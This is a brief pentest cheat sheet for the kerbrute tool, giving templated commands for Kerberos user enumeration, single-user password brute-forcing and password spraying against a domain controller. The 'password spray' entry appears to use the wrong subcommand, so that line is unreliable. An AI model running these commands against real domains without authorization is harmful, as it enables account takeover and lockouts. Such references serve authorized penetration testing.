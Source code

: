 # kerbrute
#plateform/linux #target/remote #cat/ATTACK

## Test userlist
```
kerbrute userenum -d <domain> --dc <target> <users_file|test_users.txt>
```

## Bruteforce user
```
kerbrute bruteuser -d <domain> --dc <target> <wordlist|/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt> <user>
```

## Password spray
```
kerbrute bruteuser -d <domain> --dc <target> <users_file|valid_users.txt> <passwd>
```
